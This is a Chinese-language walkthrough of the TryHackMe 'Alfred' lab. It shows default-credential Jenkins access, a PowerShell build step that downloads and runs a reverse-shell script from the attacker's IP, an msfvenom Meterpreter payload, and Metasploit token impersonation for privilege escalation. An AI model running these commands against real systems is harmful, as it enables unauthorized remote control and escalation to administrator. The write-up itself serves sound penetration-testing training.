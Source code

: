 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme Alfred  利用Jenkins/","tags":["靶场","tryhackme","oscp"]}
---
```




登录页面是admin：admin

jenkins的默认账号密码，就是`admin/admin`

登录进去之后需要想办法

![image.png](https://s2.loli.net/2025/04/17/FicuwKpRBWzLe46.png)

## 初级权限
点击project

![image.png](https://s2.loli.net/2025/04/17/e1E9AtjWsBzivKH.png)

点击配置文件

在这里有远程命令执行的地方

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.40.203:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.40.203 -Port 8888

因为是使用vpn的缘故 我们在这里ip也只能设置成vpn给我们分配的ip
```
![image.png](https://s2.loli.net/2025/04/18/Zs2wAiBd6pXhYMR.png)

配置完成后 直接点击build now 可以成功反弹shell 文件也成功上传

![image.png](https://s2.loli.net/2025/04/18/rKFAlivqWjOc439.png)

![image.png](https://s2.loli.net/2025/04/18/V4cX2Op6oK7iPne.png)

算获得了初始权限 我们下面用msf来演示一下 需要我们用msfvenom 编写一个能够生成Windows Meterpreter 反向shell的exe文件

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.17.40.203 LPORT=4567 -f exe -o shell2.exe
```

然后需要我们用刚才的powershell命令将这个shell2.exe传到靶机上

![image.png](https://s2.loli.net/2025/04/18/NfvE46SHbWDr5QZ.png)

在运行exe文件前 需要先设置好msf的参数

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.17.40.203 
set LPORT 4567 
```

![image.png](https://s2.loli.net/2025/04/18/oUvTFcDQ3185KLs.png)

先运行msf 再运行exe文件 成功连接

## 权限提升
这里用令牌模拟来获取系统访问权限

### 基本知识

访问令牌包括：

    User SIDs(security identifier)
    用户 SID （安全标识符）
    Group SIDs  组 SID
    Privileges  特权

#### 类型
有两种类型的访问令牌：

1. 主访问令牌(primary access tokens)：此类令牌是指与登录时所生成的用户账户相关联的令牌。

2. 模拟令牌(impersonation tokens)：此类令牌能够允许特定进程（或进程中的线程）使用另一个（用户/客户端）进程的令牌来访问相关的资源。

对于模拟令牌，有不同的级别：

- SecurityAnonymous：当前 用户/客户端 不能模拟另一个 用户/客户端。
- SecurityIdentification：当前 用户/客户端 可以获得客户端的身份和权限，但不能模拟客户端。
- SecurityImpersonation：当前 用户/客户端 可以在本地系统上模拟客户端的安全上下文。
- SecurityDelegation：当前 用户/客户端 可以在远程系统上模拟客户端的安全上下文。

最常被滥用的特权：

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

先使用whoami  /priv

查看本机在目标机子中的所有权限

目标机启用了两个关键权限（SeDebugPrivilege、SeImpersonatePrivilege），这两个权限能够让我们使用MSF中的模块来进行令牌模拟操作 这是个重点

![image.png](https://s2.loli.net/2025/04/18/yV8ne9N6dm42oK1.png)

![image.png](https://s2.loli.net/2025/04/18/UVvl1OnjQHGiKx6.png)

在Meterpreter shell界面加载MSF中的incognito模块

`incognito`是Metasploit Framework（MSF）中用于​**​令牌窃取与模拟​**​的核心后渗透模块，专为Windows系统设计。

```
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid

在这里有个BUILTIN\Administrators管理员账户可用 就模拟他的令牌

偷窃成功之后 会发现我们现在是管理员用户
```


![image.png](https://s2.loli.net/2025/04/18/6FDriBUySP5tuAo.png)



![image.png](https://s2.loli.net/2025/04/18/g9QDPw6WlCS4k3m.png)

获得了管理员用户 但还是不够因为我们没有实际对应用户的特殊权限 需要把进程转移到具有对应特权的进程中 、可以选择迁移到最安全的services.exe进程

![image.png](https://s2.loli.net/2025/04/18/T6kW1N8DwLZI2m7.png)


迁移成功
![image.png](https://s2.loli.net/2025/04/18/dxM9lNrknEjw7gt.png)

